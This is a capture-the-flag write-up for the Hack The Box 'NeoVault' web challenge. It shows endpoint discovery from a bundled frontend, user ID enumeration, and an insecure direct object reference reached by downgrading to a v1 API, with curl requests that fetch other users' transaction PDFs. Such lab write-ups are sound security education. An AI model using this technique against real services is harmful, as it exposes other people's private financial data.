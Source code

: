 ```yaml
---
slug: /write-up/htb/challenges/neo-vault
pagination_next: null
pagination_prev: null
---
```


# NeoVault

https://app.hackthebox.com/challenges/NeoVault

Neovault is a trusted banking app for fund transfers and downloading transaction history. You're invited to explore the app, find potential vulnerabilities, and uncover the hidden flag within.

We are given access to an instance IP and port.

The JS code is bundled with webpack. Let's analyze the app with `whatweb`:

```bash
└─$ whatweb 94.237.54.192:34875
http://94.237.54.192:34875 [200 OK] Country[FINLAND][FI], HTML5, HTTPServer[nginx/1.22.1], IP[94.237.54.192], PasswordField[password], Script, Title[NeoVault], UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time], X-Powered-By[Next.js], nginx[1.22.1]
```

A webapp built with nextjs, bundled with webpack. No sourcemaps available

This doesn't reveal much. The application does not show much option to interact with, there's only login and create an account. Let's do it!

Checking the source code, looks like it's bundled with webpack, we can use prettier to "deofuscate" it: https://prettier.io/playground

Checking the code we can find the backend endppoints:

```javascript
      let a = {
        endpointsV1: {
          me: "/api/v1/auth/me",
          login: "/api/v1/auth/login",
          register: "/api/v1/auth/register",
          logout: "/api/v1/auth/logout",
          changeEmail: "/api/v1/auth/change-email",
          transactions: "/api/v1/transactions",
          deposit: "/api/v1/transactions/deposit",
          balanceHistory: "/api/v1/transactions/balance-history",
          categoryPercentages: "/api/v1/transactions/categories-spending",
          downloadTransactions: "/api/v1/transactions/download-transactions",
        },
        endpointsV2: {
          me: "/api/v2/auth/me",
          login: "/api/v2/auth/login",
          register: "/api/v2/auth/register",
          logout: "/api/v2/auth/logout",
          changeEmail: "/api/v2/auth/change-email",
          transactions: "/api/v2/transactions",
          deposit: "/api/v2/transactions/deposit",
          balanceHistory: "/api/v2/transactions/balance-history",
          categoryPercentages: "/api/v2/transactions/categories-spending",
          downloadTransactions: "/api/v2/transactions/download-transactions",
          inquireUser: "/api/v2/auth/inquire",
        },
```

Potentially the last endpoint allows us to enumerate the users. If we pay attention to the visible deposit, we can see it's coming from `neo_system`.

If we call the inquie endpoint, we can see its id:

```json
{"_id":"688cf823d181feda936b9d54","username":"neo_system"}
```

In the PDF download button, if we change from v2 to v1, we get the following message:

```json
{"message":"_id is not provided"}
```
which ressembles to MongoDB database error: https://stackoverflow.com/questions/24427845/can-not-find-a-record-by-its-id-in-mongodb

```bash
curl 'http://94.237.61.242:59723/api/v1/transactions/download-transactions' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Content-Type: application/json' \
  -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY4OGNmOTI4ZDE4MWZlZGE5MzZiOWQ2MyIsImlhdCI6MTc1NDA3MDA2NywiZXhwIjoxNzU0MDczNjY3fQ.BfcX5Fsdizd99JwxO6sY5shQNLrdxq6iIpYkqP_cX-8' \
  -H 'Origin: http://94.237.61.242:59723' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Referer: http://94.237.61.242:59723/dashboard/transactions' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36' \
  --data-raw '{"_id":"688cf823d181feda936b9d54","username":"neo_system"}' \
  --insecure
  ```

  And it works, we can see it made a deposit to a user named `user_with_flag`. Let's enquire the user:

  ```json
{"_id":"688cf823d181feda936b9d59","username":"user_with_flag"}
  ```

  and retrieve the transactions again for this user:


  ```bash
  curl 'http://94.237.61.242:59723/api/v1/transactions/download-transactions' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Content-Type: application/json' \
  -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY4OGNmOTI4ZDE4MWZlZGE5MzZiOWQ2MyIsImlhdCI6MTc1NDA3MDA2NywiZXhwIjoxNzU0MDczNjY3fQ.BfcX5Fsdizd99JwxO6sY5shQNLrdxq6iIpYkqP_cX-8' \
  -H 'Origin: http://94.237.61.242:59723' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Referer: http://94.237.61.242:59723/dashboard/transactions' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36' \
  --data-raw '{"_id":"688cf823d181feda936b9d59","username":"user_with_flag"}' \
  --insecure
  ```

  And we can see the secret into the PDF